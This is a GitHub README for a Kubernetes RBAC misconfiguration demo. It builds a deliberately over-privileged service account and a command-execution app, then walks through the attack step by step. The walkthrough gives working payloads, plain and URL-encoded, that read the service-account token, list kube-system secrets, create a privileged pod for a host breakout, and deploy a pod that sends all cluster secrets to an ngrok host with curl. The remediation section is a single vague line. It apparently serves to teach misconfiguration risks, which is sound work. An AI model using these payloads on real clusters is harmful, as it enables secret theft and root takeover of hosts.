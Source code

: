 # RBAC issues

## Context
RBAC (Role-based access control) (wiki)[https://en.wikipedia.org/wiki/Role-based_access_control].

When a k8 cluster defines resources, it decides what permissions each resource is entitled to;
Misconfiguring a resource can result K8 cluster components performing outside of their scope, i.e.:
* Exposing inner cluster secrets, tokens and basically everything accessible by the K8 inner API
* Spinning up a privileged pod and gaining root over the host [[Kiril's demo](k8s/PrivilegedPod)]  

### PoC explanation
We'd like to demo what can happen if one managed to access a wrongfully-permissioned resource (via a container in this case);

Our demo begins **after** one has achieved RCE on a cluster container and will showcase what can happen starting from that point;
> We chose not to demo RCE-achieving on a container as this diverges from the intent of this demo and was also demoed before.  

That being said, the steps will begin by interacting with one of the containers themselves as in you were in already in RCE state 

## Setup

Run the following:
```
$ minikube start
$ ...
$ ./build.sh # chmod +x if needed
```

This will do the following:
* Spin up an "app" pod(`:3000`), simple NodeJs app which basically executes any command given (our entry point for initial RCE);
* Define a new "CI service", set the "app" service account as "CI Service"
* Define a new cluster role "CI role" **as too privileged**(got access to `*`)
* Define a cluster role binding and set "CI service" to be of "CI role"

## Exploit

<details>
  <summary>Spoiler alert</summary>
As we explained, we start our journey from the "ci app" and perform RCE using it;
The way we interact w/ the app is via HTTP requests to `/?cmd=<ANY_BASH_CMD>`;
That being said, let's fetch the IP of this service initially from within our local cluster:

```
$ minikube service ci-service --url=true
```
This should return something like: `http://192.168.39.72:30553`
> in the wild we would access this app via public internet; in this demo we must get it from our minikube first;
 
> From this point on we will use `` to evaluate bash commands;

Run ls:
````
curl `minikube service ci-service --url=true`?cmd=ls
````

See all env variables:
````
curl `minikube service ci-service --url=true`?cmd=env
````

Get the token
````
curl `minikube service ci-service --url=true`?cmd=cat%20/run/secrets/kubernetes.io/serviceaccount/token
````

Query for admin stuff using `KUBE_TOKEN` and the [K8 API](https://kubernetes.io/docs/concepts/overview/kubernetes-api/)
> Each example will contain a `decoded` and `encoded` parts; Each has the same payload, tho the encoded version is URI encoded, so we can use spaces etc
> 
> Use this website to uri encode for easy encoding: https://meyerweb.com/eric/tools/dencoder/
````
decoded

KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods/$HOSTNAME

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%2F%24HOSTNAME
````

List all secrets
````
decoded
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`; curl -sSk -H "Authorization: Bearer $KUBE_TOKEN" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/kube-system/secrets/

encoded
%0AKUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%20curl%20-sSk%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%2F%0A
````

### Examples
#### 1. Vulnerable pod
We first need to write a json file and then apply it to the cluster (like `kubectl apply -f FILE`)
> Note the `privileged:true` in the pod declaration! This leads to root on the host if the attacker wants to. 

generate nginx pod (visualise changes with `minikube dashboard`)
````
decoded

cat > nginx-pod.json <<EOF
{
    "apiVersion": "v1",
    "kind": "Pod",
    "metadata": {
        "name": "nginx1"
    },
    "spec": {
        "containers": [
            {
                "name": "nginx",
                "image": "nginx:1.7.9",
                "ports": [
                    {
                        "containerPort": 80
                    }
                ],

                "securityContext":{
                    "privileged": true
                }
            }
        ]
    }
}
EOF


ENCODED
cat%20%3E%20nginx-pod.json%20%3C%3CEOF%0A%7B%0A%20%20%20%20%22apiVersion%22%3A%20%22v1%22%2C%0A%20%20%20%20%22kind%22%3A%20%22Pod%22%2C%0A%20%20%20%20%22metadata%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx1%22%0A%20%20%20%20%7D%2C%0A%20%20%20%20%22spec%22%3A%20%7B%0A%20%20%20%20%20%20%20%20%22containers%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22ports%22%3A%20%5B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22containerPort%22%3A%2080%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%5D%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22securityContext%22%3A%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22privileged%22%3A%20true%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%20%20%20%20%7D%0A%20%20%20%20%20%20%20%20%5D%0A%20%20%20%20%7D%0A%7D%0AEOF
````
dispatch it
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@nginx-pod.json    


ENCODED
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40nginx-pod.json
```

This is it! :) 
From this point one can tap into the privileged container and "break out of it";

#### 2. Malicious Pod
Below is an example of pod that dispatches (via simple `curl`) all the k8 secrets;
> I'm using ngrok for simple globally-accessible local server. [See here for installation](https://dashboard.ngrok.com/get-started/setup).
>
> Once installed, initiate the server (`$ ngrok http 3000`)and swap the IP in the malicious pod to the one from your ngrok client; 
> you can browse to `http://127.0.0.1:4040` to see visual log of the connections  

Malicious pod
```

decoded
cat > bad-pod.json <<EOF
{
	"apiVersion": "v1",
	"kind": "Pod",
	"metadata": {
		"name": "nginx2",
	},
	"spec": {
		"containers": [
			{
                "name": "nginx",
                "image": "nginx:1.7.9",
				"command": [
					"/bin/bash"
				],
				"args": [
					"-c",
					"apk update && apk add curl --no-cache; cat /run/secrets/kubernetes.io/serviceaccount/token | { read TOKEN; curl -k -v -H \"Authorization: Bearer $TOKEN\" -H \"Content-Type: application/json\" https://192.168.154.228:8443/api/v1/namespaces/kube-system/secrets; } | curl http://166a39ea.ngrok.io; sleep 100000"
				]
			}
		],
		"serviceAccountName": "ci-service",
		"automountServiceAccountToken": true,
		"hostNetwork": true
	}
}
EOF

ENCODED
cat%20%3E%20bad-pod.json%20%3C%3CEOF%0A%7B%0A%09%22apiVersion%22%3A%20%22v1%22%2C%0A%09%22kind%22%3A%20%22Pod%22%2C%0A%09%22metadata%22%3A%20%7B%0A%09%09%22name%22%3A%20%22nginx2%22%2C%0A%09%7D%2C%0A%09%22spec%22%3A%20%7B%0A%09%09%22containers%22%3A%20%5B%0A%09%09%09%7B%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22name%22%3A%20%22nginx%22%2C%0A%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%20%22image%22%3A%20%22nginx%3A1.7.9%22%2C%0A%09%09%09%09%22command%22%3A%20%5B%0A%09%09%09%09%09%22%2Fbin%2Fbash%22%0A%09%09%09%09%5D%2C%0A%09%09%09%09%22args%22%3A%20%5B%0A%09%09%09%09%09%22-c%22%2C%0A%09%09%09%09%09%22apk%20update%20%26%26%20apk%20add%20curl%20--no-cache%3B%20cat%20%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%20%7C%20%7B%20read%20TOKEN%3B%20curl%20-k%20-v%20-H%20%5C%22Authorization%3A%20Bearer%20%24TOKEN%5C%22%20-H%20%5C%22Content-Type%3A%20application%2Fjson%5C%22%20https%3A%2F%2F192.168.154.228%3A8443%2Fapi%2Fv1%2Fnamespaces%2Fkube-system%2Fsecrets%3B%20%7D%20%7C%20curl%20http%3A%2F%2F166a39ea.ngrok.io%3B%20sleep%20100000%22%0A%09%09%09%09%5D%0A%09%09%09%7D%0A%09%09%5D%2C%0A%09%09%22serviceAccountName%22%3A%20%22ci-service%22%2C%0A%09%09%22automountServiceAccountToken%22%3A%20true%2C%0A%09%09%22hostNetwork%22%3A%20true%0A%09%7D%0A%7D%0AEOF
```

Dispatch
```
KUBE_TOKEN=`cat /var/run/secrets/kubernetes.io/serviceaccount/token`;
curl -k -v -X POST -H "Authorization: Bearer $KUBE_TOKEN" -H "Content-Type: application/json" https://$KUBERNETES_SERVICE_HOST:$KUBERNETES_PORT_443_TCP_PORT/api/v1/namespaces/default/pods -d@bad-pod.json

encoded
KUBE_TOKEN%3D%60cat%20%2Fvar%2Frun%2Fsecrets%2Fkubernetes.io%2Fserviceaccount%2Ftoken%60%3B%0Acurl%20-k%20-v%20-X%20POST%20-H%20%22Authorization%3A%20Bearer%20%24KUBE_TOKEN%22%20-H%20%22Content-Type%3A%20application%2Fjson%22%20https%3A%2F%2F%24KUBERNETES_SERVICE_HOST%3A%24KUBERNETES_PORT_443_TCP_PORT%2Fapi%2Fv1%2Fnamespaces%2Fdefault%2Fpods%20-d%40bad-pod.json
```
</details>
## Fix

To fix this problem one should set the role permissions when defining the cluster role; Simple yet dangerous;  
